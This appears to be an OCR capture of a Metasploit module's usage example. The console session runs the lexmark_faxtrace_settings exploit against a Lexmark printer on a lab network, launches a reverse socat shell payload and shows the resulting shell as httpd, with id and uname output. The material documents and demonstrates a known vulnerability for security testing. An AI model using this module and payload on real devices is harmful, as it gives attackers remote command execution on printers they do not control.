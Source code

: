 ```
   LHOST  192.168.1.72     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/lexmark_faxtrace_settings) > run

[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Waking up the printer ...
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/unix/reverse_socat_tcp
[*] Command shell session 5 opened (192.168.1.72:4444 -> 192.168.1.71:54456) at 2023-08-30 19:51:57 -0400


Shell Banner:
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$
-----


httpd@ET788C773C36F9:/usr/share/web/cgi-bin$ id
id
uid=985(httpd) gid=982(httpd) groups=982(httpd)
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$ uname -a
uname -a
Linux ET788C773C36F9 4.17.19-yocto-standard-74b7175b2a3452f756ffa76f750e50db #1 SMP PREEMPT Mon Jun 29 19:46:01 UTC 2020 armv7l GNU/Linux
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$
```
